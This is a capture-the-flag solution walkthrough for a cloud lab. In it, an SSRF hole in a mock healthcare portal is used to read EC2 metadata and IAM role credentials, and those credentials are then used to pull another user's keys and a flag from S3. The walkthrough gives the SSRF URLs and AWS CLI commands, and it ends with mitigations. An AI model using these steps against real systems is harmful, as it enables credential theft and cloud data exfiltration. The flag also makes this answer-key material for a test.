 # Challenge 03 - AWS EC2 SSRF to S3 Access Solution

## Solution Walkthrough

### Step 1: Explore the Web Application

Access the provided URL to find the MediCloudX Health data analytics portal. The application includes:
- A connectivity checker tool for external services
- System status dashboard
- Professional healthcare-themed interface

### Step 2: Identify SSRF Vulnerability

The connectivity checker accepts any URL without validation, making it vulnerable to SSRF attacks.

### Step 3: Discover Bucket Names

First, use the SSRF vulnerability to discover the bucket names by accessing:

```
URL: http://169.254.169.254/latest/user-data
```

This will reveal the EC2 user-data script containing bucket configuration. Alternatively, check for configuration files:

```
URL: file:///opt/medicloudx/config.env
```

### Step 4: Access EC2 Metadata Service

Use the SSRF vulnerability to access the EC2 metadata service:

```
URL: http://169.254.169.254/latest/meta-data/
```

Explore the metadata to find:
- Instance identity
- IAM role information
- Security credentials

### Step 5: Extract Temporary Credentials

Access the security credentials endpoint:

```
URL: http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE-NAME]
```

This returns temporary AWS credentials (AccessKeyId, SecretAccessKey, Token).

### Step 6: Configure AWS CLI

Use the extracted credentials to configure AWS CLI or use them programmatically:

```bash
export AWS_ACCESS_KEY_ID="[ACCESS_KEY]"
export AWS_SECRET_ACCESS_KEY="[SECRET_KEY]"
export AWS_SESSION_TOKEN="[TOKEN]"
```

### Step 7: Access Credentials Bucket

Use the bucket name discovered in Step 3 to access the credentials bucket:

```bash
aws s3 ls s3://[CREDENTIALS_BUCKET_NAME]
aws s3 cp s3://[CREDENTIALS_BUCKET_NAME]/employees/daniel.lopez/aws-credentials.csv ./
```

### Step 8: Extract daniel.lopez Credentials

The CSV file contains daniel.lopez's permanent AWS credentials.

### Step 9: Access Flag Bucket

Configure AWS CLI with daniel.lopez credentials and access the flag bucket using the bucket name from Step 3:

```bash
aws s3 ls s3://[FLAG_BUCKET_NAME]
aws s3 cp s3://[FLAG_BUCKET_NAME]/analytics/patient-insights/flag.txt ./
```

## Flag

```
CTF{m3d1cl0udx_ssrf_t0_s3_cr3d3nt14l_3xf1ltr4t10n}
```

## Learning Objectives

- Understanding SSRF vulnerabilities and their exploitation
- AWS EC2 metadata service security implications
- IAM role and policy misconfigurations
- S3 bucket security and access patterns
- Real-world cloud security attack chains

## Mitigation Strategies

1. **Input Validation**: Implement strict URL validation and allowlisting
2. **Network Segmentation**: Block access to metadata service from application layer
3. **IMDSv2**: Use Instance Metadata Service v2 with session tokens
4. **Least Privilege**: Apply minimal IAM permissions to EC2 roles
5. **Monitoring**: Implement logging and monitoring for unusual S3 access patterns

## Troubleshooting

### Common Issues

1. **EC2 Instance Not Accessible**: Check security group rules and VPC configuration
2. **SSRF Not Working**: Verify the web application is properly deployed
3. **S3 Access Denied**: Confirm IAM policies and bucket permissions
4. **Metadata Service Timeout**: Ensure EC2 instance has proper IAM role attached

### Debug Commands

```bash
# Check EC2 instance status
aws ec2 describe-instances --instance-ids [INSTANCE_ID]

# Verify IAM role attachment
aws ec2 describe-instances --instance-ids [INSTANCE_ID] --query 'Reservations[].Instances[].IamInstanceProfile'

# Test S3 bucket access
aws s3 ls s3://[BUCKET_NAME] --region us-east-1
```
